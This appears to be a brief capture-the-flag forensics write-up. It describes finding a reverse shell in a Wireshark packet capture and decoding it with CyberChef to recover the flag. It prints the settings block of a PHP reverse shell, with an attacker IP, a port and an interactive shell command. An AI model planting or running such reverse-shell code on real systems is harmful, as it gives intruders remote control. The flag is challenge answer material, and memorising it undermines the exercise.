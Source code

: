 1. Open .pcap in wireshark
2. Scroll thorugh the file to see that this is in fact an attack
3. Look for initial compromise with revshells due to the title and description of the task
4. A bit from the last packets there are only 1-2 POST requests, look at these 
5. In stream: `tcp.stream eq 3390` you can find the shell.
6. This will be URL encoded, decoder in Cyberchef and find: 

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.13.37.5';  // HSCTF{this_is_not
$port = 9001;       // _common_______right}
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```